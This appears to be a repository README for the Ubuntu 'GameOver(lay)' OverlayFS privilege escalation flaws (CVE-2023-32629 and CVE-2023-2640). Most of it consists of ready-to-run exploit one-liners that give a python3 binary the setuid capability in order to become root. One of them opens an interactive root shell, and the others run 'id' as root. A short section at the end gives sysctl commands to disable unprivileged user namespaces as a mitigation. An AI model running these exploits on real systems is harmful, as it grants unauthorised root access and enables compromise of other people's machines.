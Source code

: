 # Ubuntu GameOver(lay) Local Privilege Escalation CVE-2023–32629 & CVE-2023–2640

## Interactive Shell
```
unshare -rm sh -c "mkdir -p l u w m &&cp /usr/bin/python3 l/ &&setcap cap_setuid+eip l/python3 &&mount -t tmpfs none m &&touch m/cok &&l/python3 -c 'import os; os.setuid(0); import subprocess; [subprocess.call(input(\"kaz> \"), shell=True) for _ in iter(int, 1)]'"
```

## original poc payload
```
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("id")'
```
## adjusted poc payload; likely false positive
```
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*; u/python3 -c 'import os;os.setuid(0);os.system(\"id\")'"
```


### note
If you are unable to upgrade your kernel version or Ubuntu distro, you can alternatively adjust the permissions and deny low priv users from using the OverlayFS feature.
change permissions on the fly, won't persist reboots
```
sudo sysctl -w kernel.unprivileged_userns_clone=0
```
<br>
change permissions permanently; requires reboot
<br><br>

```
echo kernel.unprivileged_userns_clone=0 | sudo tee /etc/sysctl.d/99-disable-unpriv-userns.conf
```


<br><br><br>

==================================================================================
